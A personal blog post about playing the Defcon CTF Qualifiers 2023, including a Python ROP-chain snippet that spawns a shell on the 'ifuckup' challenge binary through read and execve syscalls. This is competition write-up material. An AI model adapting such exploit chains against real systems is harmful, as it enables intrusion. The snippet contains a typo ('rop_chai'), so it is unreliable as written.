

+++
title = "Defcon Qualifiers 2023!"
tags = ["PWN", "Defcon"]
description = "I played with a team of about 50 CTF players during defcon Qualifiers 2023!"
date = "May 27th"
author = "GoldenBoy"
#do not include @ cover = "" tags = ["", ""] keywords = ["", ""] description = "" showFullContent = false readingTime = false hideComments = false color = "" #color from the theme settings 
+++

# Defcon
While this post does not contain any specific information regarding the challenges, I wanted to mention here that I played in this year's Defcon Qualifiers.

It was a lot of fun, and I learned a lot. In particular, I learned about how programs are linked together at compile time to form an elf binary, as well as some of the cool things c programs can do! 

I helped out with the pwn side of about 7 challenges, including ifuckup, open house, and 5 of the live challenges.

### Open House
for open house, one of my teammates wrote an [excelent writeup](https://toasterpwn.github.io/posts/defcon-ctf-2023-qualifiers/) that I recommend you check out!

### ifuckup
Regarding ifuckup, I helped out in a very small way. In short, my teammates figured out a way to break the prng used to generate the random address of the stack and code base. So, I just had to build a rop chain that spawns a shell using syscalls.

This took a bit of time, but was pretty easy, considering there is a syscall wrapper function available

```python
    syscall_wrapper_offset = 0x102d
    base = 0x0 #leaked by teammates
    pop4_ret = 0x10c4
    bin_sh_off = 0x3730

    #offset at 22 for eip
    rop_chain = b"A"*22
    rop_chain += p32(base + syscall_wrapper_offset) #call the syscall wrapper, so the stack is passed as arguments
    rop_chain += p32(base + pop4_ret) #remove junk on return
    rop_chain += p32(3) #read
    rop_chain += p32(0) #stdin
    rop_chain += p32(base + bin_sh_off) #ptr to a writable section in memory
    rop_chain += p32(11) #bytes to read
    rop_chain += p32(base + syscall_wrapper_offset) #call again
    rop_chain += p32(0) #padding
    rop_chai += p32(11) #execve
    rop_chain += p32(base + bin_sh_off) #ptr to bin sh
    rop_chain += p32(0) #argv
    rop_chain += p32(0) #envp
    rop_chain += p32(0)*7 + b"\x00\x00" #pad it to fit 100 chars

    r.sendline(rop_chain) #send initial chain
    r.sendline(b"/bin/sh"+p32(0)) #send the input to be read by crafted syscall
```

Once again, I want to make clear that this would not have been possible without the genius of our crypto players! Great work Shadwwws, ContronThePanda, vishiswoz, Quasar, and especially Genni!

All in all, I'm just happy that I could help our team solve the challenge! Even if it was only though a small little piece.

If one of my teammates releases a full writeup of the challenge I will link to it here!

### Conclusion
I am looking forward to playing again next year, hopefully after I get better at reverse engineering!

Our team placed 15th and the top 12 teams qualify :(


